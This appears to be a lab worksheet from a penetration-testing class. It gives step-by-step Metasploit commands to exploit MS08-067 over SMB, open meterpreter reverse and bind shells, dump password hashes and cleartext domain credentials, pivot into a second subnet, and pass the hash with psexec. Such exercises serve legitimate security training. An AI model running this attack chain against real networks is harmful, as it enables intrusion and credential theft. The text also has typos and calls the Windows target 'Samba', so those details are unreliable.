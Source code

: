 ## Warm Up

This activity will be a review of the topics and techniques that we learned in the last class such as scanning and exploiting vulnerabilities, maintaining access, and using pivot points to attack other machines on the network.  If you need additional help feel free to use the CybrScore hints, but ideally you should use your notes and reach out to your neighbor. Good luck! 

---

In the next steps, you will use Metasploit CLI and its counterpart, Meterpreter, to exploit the vulnerabilities you identified earlier in the lab. You will exploit each host in the initial subnet following a defined set of steps and use the information obtained from each exploit attempt to help pivot into a new subnet and exploit other hosts.

- Open a terminal prompt by clicking the Terminal icon in the side bar.

- Starts the built-in postgresql server, if it's not already running. 

- Initializes the Metasploit database. 

- Open the Metasploit console. 

- In the Meatsploit console run a fast service scan that shows you the opperating systems of the `10.10.10.0/24 subnet` and press ENTER. 
	- Take note of which IP address is running SMB. 

- At the metasploit prompt, use the exploit `/windows/smb/ms08_067_netapi` to being attacking the SMB machine. 

- Use the payload `windows/meterpreter/reverse_tcp` to set up a reverse TCP connection. 

- Set the `RHOST` to the IP running SMB. 

- Set the `LHOST` to your IP address.

- Set the `LPORT` to the port 4444. 
- Type `run -j` and press ENTER to run the exploit
  - Once the exploit has finished running, you should see a message that says "Meterpreter session 1 opened". At the prompt, type sessions and press ENTER to see your currently active command/meterpreter shell sessions, and you should see a meterpreter session, running as the SYSTEM user, on 10.10.10.20.
  
- Type `background` to background the session. 

- Use the post exploit `/windows/gather/hashdump` to gather the password hashes and press ENTER

- Configure your session number and press ENTER
  - `set SESSION x`

- Type `run -j` and press ENTER to run the module. The module will run, and dump the password hashes that it finds.

- At the msf prompt, type `creds` and press ENTER to see your recently dumped password hashes now stored in the Metasploit database, which we will use later in this activity. 

- Return to your meterpreter session

- Run ifconfig to grab the other subnet the victim machine is connected to.

- At the msf prompt, use the post exploit `/multi/manage/autoroute` to establish a network connection between your machine, and a pivoted network. 

- Type `set CMD add` and press ENTER to change the command to add only the routes you specify.

- Type `set SUBNET 172.16.0.0` and press ENTER.

- Configure your session number and press ENTER
  - Ensure that the NETMASK variable is set to 255.255.255.0

- Type `run` and press ENTER. You will receive output about the successful route being added. You can confirm that the route has been added, or view existing routes, by typing `route` and pressing ENTER at the msf prompt at any time.

- At the msf prompt, use the `auxiliary/scanner/portscan/tcp`. 

- Use show options to view the options available to you in this module.

- Set the ports `139`,`445`, and `3389`. 

- Set the rhosts to `172.16.0.0/24`. 

- Set the threads to 50 and run it. The scan could take up to 10 minutes to complete. 

---

Now that you have identified the live hosts, we can use another Metasploit module to scan for SMB version to identify the exact version of Windows that each host is running.

- Use the `auxiliary/scanner/smb/smb_version` module and set the following:

- Using the hosts that you found in step 30, set the remote host targets with the RHOSTS parameter. Specify as many hosts as were found during step 30, then run the module. 
  - **Hint:** We have used the set RHOSTS 172.16.0.XXX,YYY notation, where XXX and YYY are the last octet of the hosts that you find, up to the total number of hosts found. You can also separate your RHOSTS parameter by specifying each host's full IP address, with each host separated with a space, rather than a comma: set RHOSTS 172.16.0.XXX 172.16.0.YYY and so on.

- At the msf prompt, type `hosts` and `services` to confirm that the results of your new scan have populated the database for easy reference later.

- At the msf prompt, use the module `/windows/smb/psexec` to exploit the machine running Samba in the other network.  

- Set the Rhosts to `172.16.0.150`. 

- Type `creds` and copy the administrator password. 

- Set the `SMBPass` to the hash that you copied in the last step. 

- Set the `SMBUser` to `administrator`

- Set the payload to the `windows/x64/meterpreter/bind_tcp` and press ENTER

- Type `set LPORT 4444` and press ENTER

- Type `run` within a few seconds, you should get a message with "Meterpreter session 2 opened".
  - If you do not, **try running the exploit again**.

- With a SYSTEM meterpreter shell on the new machine in the network, you can now attempt to dump hashes and hopefully any domain credentials in memory. 

- Type `background`

- Use the post module `/windows/gather/hashdump` and press ENTER

- Set your new session number and press ENTER.

- Type `run -j` and press ENTER to dump the local hashes found.

- Next, use the post module `/windows/gather/credentials/sso` and press ENTER.

- Set your new session number and press ENTER.

- Type `run` and press ENTER to run the module, and dump the credentials, in plaintext for any domain users that have logged in.

- Run `creds` at the msf prompt once more to see your newly acquired cleartext domain credentials.
